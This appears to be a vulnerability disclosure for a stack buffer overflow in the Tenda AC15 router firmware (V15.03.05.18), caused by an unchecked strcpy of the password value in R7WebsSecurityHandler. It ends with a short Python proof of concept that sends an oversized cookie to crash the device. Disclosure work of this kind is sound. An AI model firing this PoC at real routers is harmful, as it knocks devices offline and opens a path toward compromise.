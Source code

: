 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `R7WebsSecurityHandler` function. The `src` variable receives the `password` parameter from a POST request and is later assigned to the `v35` variable, which is fixed at 128 bytes. However, since the user can control the input of `password`, the statement `strcpy(v35, src);` can cause a buffer overflow. The user-provided  `password` can exceed the capacity of the `v35` array, triggering this security vulnerability.

![image-20240307162438572](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307162438572.png)

![image-20240314230652416](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314230652416.png)

![image-20240307162504018](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307162504018.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"password=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![image-20240314230710722](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314230710722.png)